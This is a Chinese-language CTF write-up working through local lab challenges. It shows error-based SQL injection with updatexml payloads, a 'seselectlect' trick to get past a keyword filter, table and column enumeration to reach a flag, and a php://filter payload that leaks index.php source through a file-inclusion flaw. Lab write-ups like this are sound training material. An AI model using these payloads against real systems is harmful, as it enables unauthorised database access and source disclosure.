 7. burp 有时不会捕获 127.0.0.1 的流量。如果要捕获发至本机的包，使用 `ifconfig` 命令先找到本机的 ip，用本机的 ip 代替 127.0.0.1 访问，成功捕获。我的主机 ip 是 172.19.0.1。

8. burp 捕获访问 http://172.19.0.1/login.php 的包（注意此处需要捕获的是输入账号密码点击登录后产生的包），在 intercep 页面 request 栏右键选择 action：`Send to Repeater（Ctrl + R）`，再进入 Repeater 页面。在 request 中修改请求头。
   
9.  根据提示，先在 post 的 url 中添加 ?tips=1，发送后发现无有效信息。于是修改 name，由原来的 123 改为 123'（登录的用户名），成功返回 SQL 报错信息：
> string(154) "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''123''' at line 1"
> ![burp login request](https://cdn.jsdelivr.net/gh/cs-cshi/image-host/%E4%BB%8E0%E5%88%B01%EF%BC%88CTFer%E6%88%90%E9%95%BF%E4%B9%8B%E8%B7%AF%EF%BC%89/wp_burp_login_request.png)

10. 可能存在报错注入，于是使用 updatexml 函数。继续修改 request 中请求头信息：
> `name=123'or updatexml(1,concat(0x7e,(select(7,8,9)),0x7e),1)#&pass=123`

    返回报错内容：string(34) "Operand should contain 1 column(s)"

    可能只有1列，尝试 `name=123'or updatexml(1,concat(0x7e,(select(7)),0x7e),1)#&pass=123`

    返回报错内容：`~7~`。确定格式。（0x7e：~ ）

11. 使用完整 SQL 语句测试：`name=123'or updatexml(1,concat(0x7e,(select(7) from dual ),0x7e),1)#&pass=123`,返回如下 SQL 错误。根据报错信息，说明可能存在关键字的替换，最有可能替换的是 select ,于是使用嵌套 select，即 seselectlect 替换 select，再次成功返回信息`~7~`。
> string(164) "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'from dual)),1)#'' at line 1"

12. 通过获取表名，列名成功获得 flag。
```
name=test'and updatexml(1,concat(0x7e,(seselectlect group_concat(table_name) from information_schema.tables where table_schema=database()) ,0x7e),1)#&pass=xxxx

string(34) "XPATH syntax error: '~fl4g,users~'"
```
```
name=test'and updatexml(1,concat(0x7e,(seselectlect group_concat(column_name) from information_schema.columns where table_name='fl4g'),0x7e),1)#&pass=xxxx

# 返回信息：string(28) "XPATH syntax error: '~flag~'"
```

## 1.3 任意文件读取漏洞
### 1.3.1 afr_1
1. 访问本机 ip(172.19.0.1) 进入环境，发现重定向至了 ?p=hello，联想书中"病者多诡(HCTF 2016)"，很有可能类似，猜测存在 include 函数，p 可能是 page。
   
2. 使用 wappalyzer 插件获得网站的 Banner 信息，确定是 php。
   ![wappalyzer](https://cdn.jsdelivr.net/gh/cs-cshi/image-host/%E4%BB%8E0%E5%88%B01%EF%BC%88CTFer%E6%88%90%E9%95%BF%E4%B9%8B%E8%B7%AF%EF%BC%89/wp_afr_1_wappalyzer.png)

3. 使用 dirsearch 进行目录扫描，发现存在 index.php，且重定向至 ?p=hello
   
4. 于是尝试访问 `http://172.19.0.1/index.php`，重定向至了`http://172.19.0.1/?p=hello`，而访问`http://172.19.0.1/?p=index`则是报错。
   
5. 尝试使用 php 的 filter 获取 index.php,`http://172.19.0.1/?p=php://filter/read=convert.Base64-encode/resource=index`,获得数据`PD9waHAKCmlmKGlzc2V0KCRfR0VUWydwJ10pKSB7CiAgICBpbmNsdWRlIChzdHJpbmcpJF9HRVRbJ3AnXSAuICIucGhwIjsKfQplbHNlewogICAgaGVhZGVyKCdMb2NhdGlvbjogLz9wPWhlbGxvJyk7Cn0=`，Base64 解码后得
  ```
  <?php
  if(isset($_GET['p'])) {
    include (string)$_GET['p'] . ".php";
  }
  else{
    header('Location: /?p=hello');
  }
  ```
